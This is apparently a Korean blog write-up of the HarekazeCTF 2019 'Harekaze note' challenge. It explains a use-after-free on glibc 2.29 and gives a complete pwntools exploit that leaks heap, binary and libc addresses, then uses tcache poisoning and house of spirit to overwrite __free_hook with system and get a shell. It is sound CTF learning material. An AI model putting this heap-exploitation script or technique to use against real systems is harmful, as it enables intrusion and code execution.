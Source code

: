 ```yaml
---
title: HarekazeCTF 2019 - Harekaze note
date: 2019-05-19 15:00:53
categories:
- Heap Exploit
- CTF write up
tags:
- Tcache Poisoning
- Glibc 2.29 heap
- Tcache House of Spirit
---
```



```c
1. Create note
2. Write content
3. Show content
4. Delete note
Choice: 
```

계속 워게임을 풀고 있기도 하고,, 요즘 ctf에서 부진한 성적ㅠ 때문에 글을 안쓰다가 다시 쓴다

Glibc 2.29 에서 tcache poisoning 이다.

2.29 는 처음이라 신기했당

tcache 를 free 하면 bk 부분에 tcache 주소를 넣어주고 이걸로 double free 를 체크한다

그래서 그냥 bk 부분을 overwrite 할 수 있으면 익스할 수 있다!



## Vuln

```c
struct note
{
  char title[16];
  __int64 pre;
  __int64 next;
  __int64 *content;
};
```

이런 unlink 구조인데, free 하고 memset 을 하지 않기 때문에 content 부분에서 arbitary read 를 할 수 있다.

구조체를 관리하는 부분에서 bss 영역 주소도 넣어주기 때문에 got로 libc leak 까지 하면된다.

또 delete 할 때, 이 content 부분을 사용하기 때문에 tcache poisoning + house of spirit 을 이용해 bk 덮고 hook 덮으면 된다.



## Exploit

```python
from pwn import *

w = process("./note")
#w = remote("problem.harekaze.com",20003)
ww = ELF("./note_libc.so.6")

sla = w.sendlineafter
sl = w.sendline
sa = w.sendafter

def create(title):
    sla(":","1")
    sla(":",title)

def write(title,size,cont):
    sla(":","2")
    sla(":",title)
    sla(":",str(size))
    sla("Content:",cont)

def show(title):
    sla(":","3")
    sla(":",title)

def delete(title):
    sla(":","4")
    sla(":",title)

for i in range(4):
    create(str(i))

for i in range(4):
    write(str(i),0x28,"w"*0x27)

delete(str(1))
delete(str(2))

create("w")
show("w")

heap = u64(w.recvline()[1:7].ljust(8,"\x00"))
log.info(hex(heap))

for i in range(6):
    create(str(i)*4)

for i in range(3,6):
    write(str(i)*4,0x28,p64(heap-0x20)*5)

delete("4"*4)
delete("5"*4)

create("a")
create("l")

show("l")
w.recvuntil("content: ")

code = u64(w.recvline()[:6].ljust(8,"\x00"))
log.info(hex(code))

free_got = code-0x108

for i in range(10):
    create(str(i)*8)

for i in range(2,8):
    if i == 7:
		write(str(i)*8,0x28,str(i)*0x20+p64(heap+0x4a0))
    else:
        write(str(i)*8,0x28,str(i)*0x20+p64(free_got))

delete("3"*8)
delete("4"*8)

create("l"*8)
create("y"*8)

show("y"*8)
w.recvuntil("content: ")

libc = u64(w.recvline()[:6].ljust(8,"\x00"))-ww.symbols['free']
log.info(hex(libc))

delete("6"*8)
delete("5"*8)
delete("7"*8)

create("wally")
create("wally0813")

write("8"*8,0x28,p64(0x31)*4)

delete("wally")

create("/bin/sh")

write("9"*8,0x28,p64(0xdeadbeef)+p64(0x31)+p64(heap+0x2a0+0x30+0x60)+p64(0))

system = libc+ww.symbols['system']
hook = libc+ww.symbols['__free_hook']

create(p64(hook))
create(p64(hook))
create(p64(hook))
create(p64(system))

delete("/bin/sh")

w.interactive()

```



![KakaoTalk_20190519_011947166](https://user-images.githubusercontent.com/36659181/57976904-a3fb1d80-7a26-11e9-8925-0929f168d045.png)

퍼블 못따서 아쉽다ㅠㅠ!
